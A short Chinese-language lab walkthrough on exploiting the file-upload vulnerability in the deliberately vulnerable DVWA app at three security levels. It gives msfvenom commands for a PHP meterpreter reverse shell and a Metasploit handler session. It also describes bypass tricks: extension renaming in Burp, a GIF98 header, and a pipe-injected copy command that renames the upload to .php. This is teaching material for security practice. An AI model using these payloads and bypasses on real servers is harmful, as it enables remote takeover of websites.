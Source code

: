 ## 恶意文件上传DVWA漏洞（绕过所有安全）[^1]

### Low

msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.104 lport=3333 -f raw [^2]

```shell
msf > use multi/handler
msf exploit(handler) > set payload php/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.104
msf exploit(handler) > set lport 3333
msf exploit(handler) > run
meterpreter > sysinfo
```

### Medium

`msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.104 lport=3333 -f raw` [^3]

### High

`msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.104 lport=3333 -f raw` [^4]

`| copy C:\xampp\htdocs\DVWA\hackable\uploads\shell.jpeg C:\xampp\htdocs\DVWA\hackable\uploads\aa.php` [^5]

[原文](https://www.hackingarticles.in/hack-file-upload-vulnerability-dvwa-bypass-security/)

---

[^1]: 文件上载漏洞是基于Web的应用程序的主要问题。在许多Web服务器中，此漏洞完全取决于允许攻击者上传隐藏恶意代码的文件的目的，然后可以在服务器上执行。攻击者可能会将网络钓鱼页面放入网站或破坏网站。攻击者可能会向其他人透露Web服务器的内部信息，并且未经授权的人员可能会将一些敏感数据的机会非正式。在DVWA中，网页允许用户上传图像，网页通过程序编码并检查文件的最后一个字符是“.jpg”，还是“.jpeg”或“.png”，然后才能上传图像目录。
[^2]: 在kali linux中打开终端并通过以下命令创建php后门。将显示的代码**复制**并**粘贴**到leafpad中，并像**PHP扩展**一样另存为**hack.php**在桌面上。上传成功并执行
[^3]: 现在将所选代码**保存**为桌面上的**raj.php.jpeg**。由于此文件将以中等安全性上载，这与低安全性略有不同，因为这显然会检查文件的扩展名。当您单击上载按钮时，拦截选项卡将用于捕获post方法。使用Burpsuite进行拦截，现在将**raj.php.jpeg**转换为**raj.php**
[^4]: 现在将所选代码**保存**为桌面上的**shell.jpeg**。由于这个文件将以高安全性上传，这与中低安全性略有不同，因为这显然会检查文件的扩展名以及代码段，因此在PHP代码之前**键入GIF98**并保存为**shell.jpeg**。
[^5]: 当使用jpeg扩展名上传时，此PHP文件无法直接在URL上执行。要将此文件重命名为PHP文件，请单击以从漏洞中**命令注入**选项。此漏洞允许您将此shell.jpeg复制并重命名为PHP文件。在文本框中输入下列类型将**复制**和**重命名** **shell.jpeg**到**aa.php**
